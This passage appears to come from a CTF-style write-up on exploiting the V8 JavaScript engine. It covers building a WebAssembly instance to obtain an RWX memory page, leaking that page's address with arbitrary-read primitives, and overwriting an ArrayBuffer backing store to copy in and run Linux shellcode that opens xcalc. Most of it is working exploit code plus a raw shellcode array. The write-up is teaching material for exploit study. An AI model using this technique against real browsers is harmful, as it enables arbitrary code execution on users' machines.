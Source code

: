 The only other way (that I know of) to get an RWX page in v8 is to use WebAssembly. If you create a wasm function, it will allocate an RWX page whose address can be leaked. Let's first create a wasm page. Note that the wasm code used doesn't matter so long as it compiles and creates an RWX page for us:
```javascript
// https://wasdk.github.io/WasmFiddle/
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
```

Now, checking the memory mappings in GDB, you will see an `rwx` page has been created.

In order to figure out how you can leak the address of this page though, you can take the harder route and read the code in `src/compiler/wasm-compiler.cc` and the other various files, which is quite time consuming, but good practice to understand how the v8 code base works. 

I instead took a shortcut used the x64.debug version to figure this out:

1. Since I use `gdb-gef`, the first thing I did was take the base address of the RWX region, and do `search-pattern rwx_base_address` to see where it occurs in memory.
2. Through a bit of trial and error, I found that if you take `addrof(wasm_instance)`, the memory location at which `search-pattern` shows the `rwx_base_address` is always exactly at `addrof(wasm_instance)-1n+0x88n`.

This way, if you just do `arb_read(addrof(wasm_instance)-1n+0x88n)`, it will give you the base address of the RWX page, as shown below:
```javascript
var rwx_page_addr = arb_read(addrof(wasm_instance)-1n+0x88n);

console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));
```

Following this, I just had to copy my shellcode to the RWX page, and just call the wasm function by doing `f();`. I decided to use the following shellcode from [here](https://xz.aliyun.com/t/5003) that pops xcalc on Linux. I also wrote a helper function to help copy it over to the RWX page:
```javascript
function copy_shellcode(addr, shellcode) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4*i, shellcode[i], true);
    }
}

// https://xz.aliyun.com/t/5003
var shellcode=[0x90909090,0x90909090,0x782fb848,0x636c6163,0x48500000,0x73752fb8,0x69622f72,0x8948506e,0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,0x50000030,0x4944b848,0x414c5053,0x48503d59,0x3148e289,0x485250c0,0xc748e289,0x00003bc0,0x050f00];
```
